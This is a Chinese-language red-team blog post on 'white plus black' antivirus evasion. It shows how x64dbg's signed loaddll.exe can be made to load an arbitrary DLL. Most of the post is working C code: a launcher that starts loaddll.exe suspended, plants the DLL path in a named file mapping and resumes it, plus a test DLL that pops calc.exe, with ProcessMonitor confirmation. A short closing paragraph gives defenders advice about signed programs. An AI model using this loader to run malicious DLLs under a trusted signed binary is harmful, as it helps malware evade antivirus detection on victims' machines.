



## 0x00 何谓白加黑？

在木马样本与杀毒软件的对抗中，再隐蔽的木马在被发现的那一刻，它的这一生就结束了。杀毒软件厂商通过SHA1/2、MD5等算法取得样本的唯一值来构建云端的特征库，当下一次攻击发生时，将会通过特征库进行比对，因此成本对抗不言而喻，红队的木马需要重新修改、编译，大大增加了对抗的时间、精力，这就是威胁情报的一种价值。反观有些软件确实会需要开发一些敏感行为的功能，如修改注册表、屏幕录像截图但这些是用户知情且授权的行为，这时杀毒软件再进行拦截的话，将大大降低软件使用的体验，所以出现了软件签名技术可以解决这类问题，当然软件签名技术不仅仅是为了只解决这一个问题而出现的。有些APT组织会通过控制软件开发商的代码仓库进行投毒或者通过入侵软件开发商来窃取签名，给自己的木马加上签名验证，杀毒软件遇到签名将会默认信任这个程序。但攻击软件开发商所需要投入的成本也相对比较高，telegram上也出现了花钱签名的服务，不过白嫖怪的数量可比金主爸爸要多，白嫖怪为了得到一个可以以签名程序运行自己任意代码的条件就会去挖掘一些软件厂商的程序是否存在DLL劫持漏洞，利用DLL劫持的特性达到披着羊皮的狼的目的。现阶段基本上大多数的APT组织在进行权限维持都会采用白加黑的技术来绕过杀毒软件的拦截和检测（特殊行为除外）。本文将会分享一个关于x64dbg这款调试工具的白加黑利用技巧。

## 0x02 x64dbg的DLL加载组件

[x64dbg](https://github.com/x64dbg/x64dbg) 是一个开源的Windows平台下的调试工具，相比于OllyDbg我更喜欢x64dbg。打开x64dbg的目录，可以看到有一个loaddll.exe程序，顾名思义，它一定具有dll加载的功能。


在跟进到它的[源代码](https://github.com/x64dbg/x64dbg/blob/development/src/loaddll/loaddll.cpp)：

```cpp
#include <windows.h>

wchar_t szLibraryPath[512];

int main()
{
    wchar_t szName[256];
    wsprintfW(szName, L"Local\\szLibraryName%X", (unsigned int)GetCurrentProcessId());
    HANDLE hMapFile = OpenFileMappingW(FILE_MAP_READ, false, szName);
    if(hMapFile)
    {
        const wchar_t* szLibraryPathMapping = (const wchar_t*)MapViewOfFile(hMapFile, FILE_MAP_READ, 0, 0, sizeof(szLibraryPath));
        if(szLibraryPathMapping)
        {
            lstrcpyW(szLibraryPath, szLibraryPathMapping);
            UnmapViewOfFile(szLibraryPathMapping);
        }
        CloseHandle(hMapFile);
    }
    if(szLibraryPath[0])
        return (LoadLibraryW(szLibraryPath) != NULL);
    return 0;
}
```

代码非常简单，大致功能是读取本地系统上一个文件映射具柄，从文件映射句柄中获取要加载的dll文件路径。文件句柄的名称包含了当前进程的PID，是不固定的。那么如何实现任意文件加载呢？

这个问题也比较简单，我的大致思路：

1. 调用CreatProcess创建一个暂停的主线程的loaddll.exe
2. 获得loaddll.exe这个进程的启动信息，读取到它的进程ID
3. 创建文件映射，把要加载的dll路径写入文件映射中，等待loaddll.exe读取
4. 将loaddll.exe进程的线程从挂起状态恢复成运行状态

Invoke-Loader测试代码：

```c
#include <Windows.h>
#include <stdio.h>
#include <sddl.h>

WCHAR dllPath[1024] = L"C:\\Windows\\Temp\\Test\\DllMain.dll";
WCHAR loaderPath[] = L"C:\\Windows\\Temp\\Test\\loaddll.exe";

HANDLE CreateMapFile() {
	HANDLE hFile = NULL;
	hFile = CreateFile(L"C:\\Windows\\Temp\\Test\\2.log", FILE_GENERIC_READ | FILE_GENERIC_WRITE, FILE_SHARE_READ,
		NULL,
		OPEN_ALWAYS,
		NULL,
		NULL);
	if (hFile == INVALID_HANDLE_VALUE) {
		return NULL;
	}
	WriteFile(hFile, dllPath, sizeof(dllPath), NULL, NULL);
	return hFile;
}

int __stdcall WinMain(
	HINSTANCE hInstance,
	HINSTANCE hPrevInstance,
	LPSTR     lpCmdLine,
	int       nShowCmd
){
	wchar_t szName[256];
	DWORD dwFileSize = 0;
	
	HANDLE hFile = NULL;
	HANDLE hFileMap = NULL;
	SECURITY_ATTRIBUTES attributes;
	STARTUPINFO si;
	PROCESS_INFORMATION pi;
	ZeroMemory(&si, sizeof(si));
	si.cb = sizeof(si);
	ZeroMemory(&pi, sizeof(pi));
	ZeroMemory(&attributes, sizeof(attributes));
	attributes.nLength = sizeof(attributes);
	
	ConvertStringSecurityDescriptorToSecurityDescriptorA(
		"D:P(A;OICI;GA;;;SY)(A;OICI;GA;;;BA)(A;OICI;GWGR;;;IU)",
		SDDL_REVISION_1,
		&attributes.lpSecurityDescriptor,
		NULL);

	hFile = CreateMapFile();
	if (hFile == NULL) {
		return 0;
	}
	
	
	BOOL bStatus = CreateProcessW(loaderPath, NULL, NULL, NULL, FALSE, CREATE_SUSPENDED| CREATE_NO_WINDOW, NULL, NULL, &si, &pi);
	if (bStatus == NULL) {
		/*wprintf(L"[-] CreateProcess Error %d \n", GetLastError());*/
		return 0;
	}
	
	ZeroMemory(szName, sizeof(szName));
	
	wsprintfW(szName, L"Local\\szLibraryName%X", (unsigned int)pi.dwProcessId);
	
	
	hFileMap = CreateFileMappingW(hFile, &attributes, PAGE_READWRITE, 0, 1024, szName);
    

	ResumeThread(pi.hThread);

	Sleep(3000);
	return 0;
}
```

编写一个dll文件用于测试：

```cpp
// dllmain.cpp : 定义 DLL 应用程序的入口点。
#include "pch.h"
#include <stdio.h>

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        // 弹出一个计算器
        WinExec("calc.exe", TRUE);
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

## 0x03 加载任意dll测试


双击Invoke-Loader.exe，就会弹出计算器：


通过ProcessMonitor分析一下过程是不是如我所想的那样：


首先创建了2.log，内容是DllMain.dll的绝对路径，然后再创建loaddll.exe：


主线程创建的时候因为是暂停状态，是没有加载任何dll的，当文件映射设置完毕，恢复线程状态后，它成功的加载了DllMain.dll。




这里的calc.exe的父进程是loaddll.exe。

## 0x04 总结




该程序上次更新已经是2020年了，可能已经被大范围滥用。




白加黑是一个降低红队攻击成本的一个方案，能够规避很多杀毒软件的拦截和扫描，在应急响应阶段对于签名程序的分析应更加关注签名程序加载的模块、进程行为做了哪些操作，签名验证仅仅是提高了攻击的门槛，不应该绝对信任签名程序。